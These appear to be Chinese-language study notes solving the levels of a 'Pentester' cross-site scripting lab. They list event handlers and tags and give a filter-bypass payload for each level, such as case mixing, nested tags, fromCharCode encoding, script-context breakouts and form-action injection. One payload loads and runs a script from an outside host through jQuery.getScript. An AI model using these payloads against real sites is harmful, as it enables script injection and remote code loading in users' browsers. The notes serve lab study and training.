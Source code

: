 # Pentester
常用url编码
%20--空格  %27--单引号  %3C--<  %3E-->
测试特殊符号:
<>"JavAScriPT'/:on
第一关:
name=<script>alert('xss')</script>
name=<iframe src=javascript:alert('xss')></iframe>
name=<a href=javascript:alert('xss')>click me</a>
name=<img src=1%20onerror=alert('xss')>  
name=<img src=http://www.sqlsec.com/favicon.icoonclick=alert('xss')> 

常见的事件：
window事件:
onerror  在错误发生时运行的脚本
onload	 页面结束加载之后触发
键盘事件:
onkeydown	在用户按下按键时触发
onkeypress	在用户敲击按钮时触发
onkeyup	    当用户释放按键时触发
鼠标事件:
onclick	元素上发生鼠标点击时触发
onmousedown	当元素上按下鼠标按钮时触发
onmousemove	当鼠标指针移动到元素上时触发。
onmouseover	当鼠标指针移动到元素上时触
onmouseout	当鼠标指针移出元素时触发
onmouseup	当在元素上释放鼠标按钮时触发
new:
onwebkitanimationend 
ontouchmove      移动端手指点击触发

常见的支持事件的标签
a	定义超链接，用于从一张页面链接到另一张页面,最重要的属性是 href 属性，它指示链接的目标
article	规定独立的自包含内容一篇文章应有其自身的意义，应该有可能独立于站点的其余部分对其进行分发
audio	定义声音，比如音乐或其他音频流
b	规定粗体文本
body	定义文档的主体，包含文档的所有内容
br	只是简单地开始新的一行
button	定义一个按钮
iframe	会创建包含另外一个文档的内联框架
img	向网页中嵌入一幅图像
select	可创建单选或多选菜单
style	用于为 HTML 文档定义样式信息
textarea	标签定义多行的文本输入控件
video	定义视频，比如电影片段或其他视频流

payload:javascript:alert(1)'1'onerror=jQuery.getScript('//ifo.pw/WenBWc')>2222222
第二关:
name=<ScriPT>alert('xss')</ScriPT>

第三关:
name=<ScriP<scRipt>T>alert('xss')<ScriP<scRipt>T>

第四关:
script报错 大小写还是报错
编码绕过失败 采用构造标签绕过
<img src=2 onerror=alert('xss')>

第五关:
<>"JavAScriPT'/:on 
全部回显
alert --> error
<script></script> 没有报error
可能过滤了alert函数
1.构造标签
2.对alert编码  --> 可以执行javascript代码故采用String.fromCharCode
fromCharCode() 可接受一个指定的 Unicode 值，然后返回一个字符串。
name=<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 120, 115, 115, 39, 41))</script>

第六关:
<>"JavAScriPT'/:on 
<script>
	var $a= "<>"JavAScriPT'/:on";
</script>

方法闭合" 
"; alert('xss');"
或者闭合<script>标签
1";</script><img src=0 onerror=alert('xss')><script>

第七关:
<>"JavAScriPT'/:on; 
&lt;&gt;&quot;JavAScriPT'/:on 
进行了实体编码
在 HTML 中，某些字符是预留的。在 HTML 中不能使用小于号（<）和大于号（>），这是因为浏览器会误认为它们是标签。
如果希望正确地显示预留字符，我们必须在 HTML 源代码中使用字符实体。如需显示小于号，我们必须这样写：&lt; 或 &#60;

HTML 中的常用字符实体是不间断空格(&nbsp;)。浏览器总是会截短 HTML 页面中的空格。
如果您在文本中写 10 个空格，在显示该页面之前，浏览器会删除它们中的 9 个。如需在页面中增加空格的数量，您需要使用 &nbsp; 字符实体。
< --> &lt;
/> --> &gt;
" --> &quot
1';alert('xss');'

第八关:
<>"JavAScriPT'/:on; 
&lt;&gt;&quot;JavAScriPT'/:on;
<>"被转换
输出在html环境中

无法使用<>即无法创造<script>环境也没法构造标签利用事件
考虑编码
发现form action中url和访问的url有关
/"><img%20src=0%20onerror=alert('xss')><form%20action=""

第九关：
<>"JavAScriPT'/:on; 
%3C%3E%22JavAScriPT'/:on;
<>" 显示在页面进行了url编码
<img src='https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png' onclick=alert('xss')>